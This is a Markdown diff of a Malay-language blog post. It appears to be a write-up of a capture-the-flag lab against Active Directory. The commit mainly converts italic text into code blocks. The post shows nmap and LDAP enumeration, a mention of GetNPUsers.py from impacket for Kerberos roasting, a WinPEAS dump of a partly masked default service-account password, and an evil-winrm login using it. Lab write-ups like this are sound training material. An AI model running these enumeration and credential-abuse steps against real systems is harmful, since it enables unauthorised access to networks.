

Before and after one commit to faridarif/faridarif.github.io, a Jekyll site: the page built from _posts/2020-07-15-CTF-Sauna.md, in a window 1280 px wide and 1400 px high, scrolled down 583 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; some of the changed text lies outside the part shown.

````diff
--- a/_posts/2020-07-15-CTF-Sauna.md
+++ b/_posts/2020-07-15-CTF-Sauna.md
@@ -15,8 +15,8 @@ Mulakan dengan nmap scan :
 
 - *nmap -A -T4 10.10.10.175*
 
-
-*PORT     STATE SERVICE       VERSION
+```
+PORT     STATE SERVICE       VERSION
 53/tcp   open  domain?
 | fingerprint-strings:
 |   DNSVersionBindReqTCP:
@@ -50,18 +50,18 @@ Host script results:
 |_    Message signing enabled and required
 | smb2-time:
 |   date: 2020-10-16T13:27:55
-|_  start_date: N/A*
-
+|_  start_date: N/A
+```
 
 Disebabkan port 88 open,maka kita boleh cuba kerberoasting attack.Sebelum itu,kita enumerate LDAP dahulu disebabkan
 port 389 open.
 
-- *sudo nmap --script "ldap* and not bruteforce" -p389 10.10.10.175*
+- *sudo nmap --script "ldap* and not bruteforce" -p389 10.10.10.175
 
 User :
-
+```
 *dn: CN=Hugo Smith,DC=EGOTISTICAL-BANK,DC=LOCAL*
-
+```
 Setelah enumerate seluruh website.Kita menjumpai nama penuh employees pada bahagian *about*.Disebabkan ianya active
 directory,maka kita perlukan dapatkan valid user dan password hash.Oleh itu,kita gunakan *GetNPUsers.py* from impacket.
 
@@ -91,11 +91,11 @@ Peringatan : jangan lupa untuk flag anda
 
 Upload *WinPEAS.exe* kedalam machine dan gunakannya untuk enumerate windows machine.Kita akan dapat default password
 *svc_loanmgr user* :
-
-*DefaultDomainName      : 35mEGOTISTICALBANK
- DefaultUserName        : 35mEGOTISTICALBANK\svc_loanmanager
- DefaultPassword        : Moneym............ound!*
-
+```
+DefaultDomainName      : 35mEGOTISTICALBANK
+DefaultUserName        : 35mEGOTISTICALBANK\svc_loanmanager
+DefaultPassword        : Moneym............ound!
+```
  Kita cuba login menggunakan password dan username itu.
 
  - *evil-winrm -i 10.10.10.175 -u svc_loanmgr -p 'Moneym............ound!'*
````
